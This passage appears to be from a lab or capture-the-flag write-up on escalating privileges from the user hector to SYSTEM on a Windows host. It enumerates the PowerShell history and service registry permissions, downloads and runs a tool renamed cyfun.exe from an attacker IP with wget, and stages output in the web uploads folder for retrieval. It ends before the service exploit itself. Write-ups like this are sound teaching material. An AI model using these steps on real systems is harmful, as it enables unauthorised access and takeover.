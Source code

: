 ### Privilege Escalation : hector to system

**TL;DR**: bin path SYSTEM service exploit

We can see if hector has a command history.

```
PS C:\Users\Hector> Get-Content C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

Fine, it seems to be a clue, we must have to look at services.

```
PS C:\Users\Hector> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "Hector Users Path Everyone"
```

There are dozens services where hector has full control, let's find one that `iusr` can restart.

Let's try with a sysinternal tool.

```
$ cp /usr/share/windows/sysinternals-suite/accesschk64.exe .
```

```
PS C:\Users\Hector\Videos> powershell -nop -c "wget http://10.10.15.123:8080/accesschk64.exe -OutFile cyfun.exe"

.\cyfun.exe -uwcqv Hector * /accepteula
```

But access denied because it tries to open Service Control Manager.

Get all services:

```
PS C:\Users\Hector\Videos> reg query hklm\system\currentcontrolset\services > cyfun.txt
PS C:\Users\Hector\Videos> copy cyfun.txt C:\inetpub\wwwroot\uploads\cyfun.txt
$ cat services_fullpath.txt| cut -d '\' -f 5 > services.txt
```

Get services owners and who can modify them.

```
PS C:\Users\Hector\Videos> get-acl HKLM:\System\CurrentControlSet\services\* | Format-List PSChildName,Owner,Group,AccessToString | Out-String -Width 300 > cyfun.txt
PS C:\Users\Hector\Videos> copy cyfun.txt C:\inetpub\wwwroot\uploads\cyfun.txt
```

Get services registry binary path

```
PS C:\Users\Hector\Videos> reg query hklm\System\CurrentControlSet\Services /s /v imagepath

powershell -nop -c "wget http://10.10.15.123:8080/services_name.txt -OutFile services_name.txt"
```
